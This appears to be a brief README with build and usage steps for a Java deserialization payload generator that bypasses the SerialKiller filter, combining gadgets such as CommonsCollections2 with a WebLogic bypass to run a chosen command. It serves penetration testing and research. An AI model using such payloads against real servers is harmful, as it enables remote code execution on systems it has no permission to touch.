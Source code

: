 # SerialKillerBypassGadgetCollection

build from https://github.com/pwntester/SerialKillerBypassGadgetCollection
## build
```
cd SerialKillerBypassGadgetCollection
git submodule init
git submodule update
cd ..

rm -rf SerialKillerBypassGadgetCollection/external
cp -r external SerialKillerBypassGadgetCollection/
rm SerialKillerBypassGadgetCollection/pom.xml
cp pom.xml SerialKillerBypassGadgetCollection/pom.xml
cp Main.java SerialKillerBypassGadgetCollection/src/main/java/serialkiller/Main.java
cd SerialKillerBypassGadgetCollection
mvn clean
mvn clean compile assembly:single
mv serialkiller-bypass-gadgets-*-SNAPSHOT-all.jar ..
cd ..

```

## Usage

`java -jar target/serialkiller-bypass-gadgets-0.0.1-SNAPSHOT-all.jar <Payload Gadget, eg: CommonsCollections2> <Bypass Gadget, eg: Weblogic1> <Command, eg: 'touch /tmp/test'>`